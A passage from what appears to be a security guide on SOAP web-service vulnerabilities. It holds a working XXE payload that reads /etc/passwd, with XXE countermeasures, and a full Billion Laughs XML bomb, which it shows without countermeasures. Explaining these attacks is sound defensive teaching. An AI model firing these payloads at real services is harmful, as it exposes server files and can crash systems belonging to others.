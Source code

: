 #### 1\. XML External Entity (XXE) Injection

This is one of the most critical SOAP vulnerabilities. It occurs when the XML parser is configured to process external entities. An attacker can send a SOAP request containing a maliciously crafted XML entity to **read local files on the server, conduct Server-Side Request Forgery (SSRF) attacks on the internal network, or even lead to remote code execution**.

**Attack Example (File Exfiltration):**

The attacker includes a request to load an external Document Type Definition (DTD) using the `SYSTEM` keyword. The example below is an attempt to read the contents of the `/etc/passwd` file.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
  <soap:Body>
    <m:GetUserDetails>
      <m:UserId>&xxe;</m:UserId>
    </m:GetUserDetails>
  </soap:Body>
</soap:Envelope>
```

If the server's XML parser processes this request as is, the `&xxe;` entity will be replaced with the content of the `/etc/passwd` file, which could then be included in the response or exposed in some other way.

**Countermeasures:**

  * **Disable External Entity Processing:** The most effective solution is to disable the processing of external entities (including DTDs) in the XML parser you are using.
  * **Input Validation:** Always strictly validate and filter XML data received from untrusted sources.

#### 2\. XML Bomb (Billion Laughs Attack)

This is a type of Denial of Service (DoS) attack that utilizes **recursive entity expansion**. The attacker defines nested entities within a small XML request. As the parser expands these entities, memory usage increases exponentially, eventually **exhausting the server's resources and causing the service to crash**.

**Attack Example:**

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
  <soap:Body>
    <message>&lol9;</message>
  </soap:Body>
</soap:Envelope>
```
